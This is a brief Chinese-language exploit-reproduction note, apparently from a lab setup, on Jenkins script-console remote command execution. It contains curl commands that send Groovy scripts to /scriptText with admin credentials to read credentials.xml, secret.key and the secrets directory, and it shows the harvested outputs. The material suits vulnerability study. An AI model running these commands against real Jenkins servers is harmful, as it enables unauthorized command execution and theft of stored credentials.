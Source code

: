 参考文章  
[# Jenkins未授权访问漏洞&命令执行](https://blog.csdn.net/qq_45434762/article/details/115291413)
[# 漏洞复现 Jenkins script 远程命令执行漏洞](https://cn-sec.com/archives/1884608.html)

```bash
curl -u "admin:1172836bdd7cc687550e757a57d57e2804" -H "Jenkins-Crumb: $CRUMB" -d "script=println 'cat credentials.xml'.execute().text" http://192.168.66.128:8080/scriptText
```
![](assets/img/attachments/QQ_1754576777825.png)  

```
{AQAAABAAAAAgtexA8vpTSnExRDT5W2GGLO4f2VW1OCnN0JoU8Nfy1zx90xyaA/ddWiCrThVdRmQn}
```

```bash
curl -u "admin:1172836bdd7cc687550e757a57d57e2804" -H "Jenkins-Crumb: $CRUMB" -d "script=println 'cat secret.key'.execute().text" http://192.168.66.128:8080/scriptText
```
![](assets/img/attachments/QQ_1754576950625%201.png)  

```
1c48f36e2bc4e3b3f6b24083193dc215492f4ff9533cf714dad75321b1659fdb
```

```
[root@localhost ~]# curl -u "admin:1172836bdd7cc687550e757a57d57e2804" -H "Jenkins-Crumb: $CRUMB" -d "script=println 'ls -l ./secrets'.execute().text" http://192.168.66.128:8080/scriptText
total 16
-rw-r--r--. 1 jenkins jenkins 272 Mar 14 10:58 hudson.util.Secret
-rw-r--r--. 1 jenkins jenkins  32 Mar 14 10:44 jenkins.model.Jenkins.crumbSalt
-rw-r--r--. 1 jenkins jenkins 256 Mar 14 10:44 master.key
-rw-r--r--. 1 jenkins jenkins 272 Mar 14 10:57 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY
```
